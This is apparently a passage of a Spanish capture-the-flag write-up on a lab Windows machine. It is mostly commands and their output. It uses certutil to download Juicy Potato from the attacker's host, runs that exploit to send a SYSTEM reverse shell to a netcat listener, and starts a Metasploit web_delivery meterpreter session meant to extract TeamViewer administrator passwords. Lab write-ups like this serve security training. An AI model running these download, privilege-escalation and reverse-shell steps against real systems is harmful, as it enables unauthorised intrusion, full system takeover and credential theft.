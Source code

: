 * Cargando **Juicy Potato** a la máquina víctima:
```batch
certutil.exe -urlcache -split -f http://Tu_IP/JuicyPotato.exe JuicyP.exe           
certutil.exe -urlcache -split -f http://Tu_IP/JuicyPotato.exe JuicyP.exe
****  Online  ****
  000000  ...
  054e00
CertUtil: -URLCache command completed successfully.
```

* Iniciando otra **netcat**:
```bash
rlwrap nc -nlvp 1337
listening on [any] 1337 ...
```

* Ejecutando **Juicy Potato**:
```batch
C:\Users\Public\Desktop>JuicyP.exe -t * -p C:\Windows\System32\cmd.exe -l 1337 -a "/c C:\Users\Public\Desktop\shell.exe -e cmd Tu_IP 1337" -c {B91D5831-B1BD-4608-8198-D72E155020F7}
JuicyP.exe -t * -p C:\Windows\System32\cmd.exe -l 1337 -a "/c C:\Users\Public\Desktop\shell.exe -e cmd Tu_IP 1337" -c {B91D5831-B1BD-4608-8198-D72E155020F7}
Testing {B91D5831-B1BD-4608-8198-D72E155020F7} 1337
COM -> recv failed with error: 10038
```

* Obtenemos la sesión como administrador:
```batch
rlwrap nc -nlvp 1337
listening on [any] 1337 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.180] 49900
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.
. 
C:\Windows\system32>whoami
whoami
nt authority\system
```

<h2 id="exploit5">Utilizando Módulo de Metasploit para Obtener Contraseñas de Administrador</h2>

Por último, vamos a crear una sesión en **meterpreter**, utilizando el **Metasploit Framework** para que podamos usar el modulo contra el **TeamViewer**.

Vamos a crear primero la sesión, por pasos:

* Abriendo **Metasploit Framework** y usando el **modulo web_delivery**
```bash
msfconsole
.
msf6 > use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) >
```

* Observando opciones a configurar:
```bash
msf6 exploit(multi/script/web_delivery) > show options
.
Module options (exploit/multi/script/web_delivery):
.
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
```